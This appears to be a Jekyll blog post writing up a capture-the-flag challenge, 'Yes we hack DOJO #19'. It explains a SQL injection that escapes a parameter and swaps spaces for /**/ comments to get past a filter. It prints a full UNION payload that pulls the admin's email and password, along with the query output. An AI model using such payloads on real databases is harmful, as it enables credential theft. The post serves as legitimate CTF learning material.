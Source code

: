 ```yaml
---
layout: post
title:  "Yes we hack DOJO #19"
date:   2022-12-07 10:02:59 +0100
hidden: true
categories: jekyll update
---
```


![](/assets/storytime.png)
So we can't do -- comments and no spaces.
Hm.

How about comments?

This SQL Injection like many others come in three parts.
First to escape from the parameter you're in. In this case no problem. just use "3)".
The second part is to do whatever we would like to do. In this case UNION some more statements together since we can only do one statement.
Finally we can comment with \/* since that would 


We have a comment below which is a hint? It also has a \*/ for us

```sql
SELECT username FROM users WHERE ( role = 'USER' AND email LIKE '%@yahoo.com' ) AND ( id > 13.37 AND id <= 3)/* ) LIMIT 0 -- 10
/**
* Set "LIMIT" to 10 when in production
*/
```

Are comments valid token delimiters? Yes they are!

So something like 
```sql
3)/**/UNION/**/SELECT/**/email/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin';/*
```
should work and indeed it does.
Complete payload is:

```sql
3)/**/UNION/**/SELECT/**/email/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin'/**/UNION/**/SELECT/**/password/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin';/*
```

Giving us:
```sql
SELECT username FROM users WHERE ( role = 'USER' AND email LIKE '%@yahoo.com' ) AND ( id > 13.37 AND id <= 3)/**/UNION/**/SELECT/**/email/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin'/**/UNION/**/SELECT/**/password/**/FROM/**/users/**/WHERE/**/username/**/=/**/'admin';/* ) LIMIT 0 -- 10
/**
* Set "LIMIT" to 10 when in production
*/
```

```json
[
  {
    "username": "FLAG{XXXXXXXXXXXXXXXXXXXXXXXXXX}"
  },
  {
    "username": "murphygary@gmail.com"
  }
]
```

Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
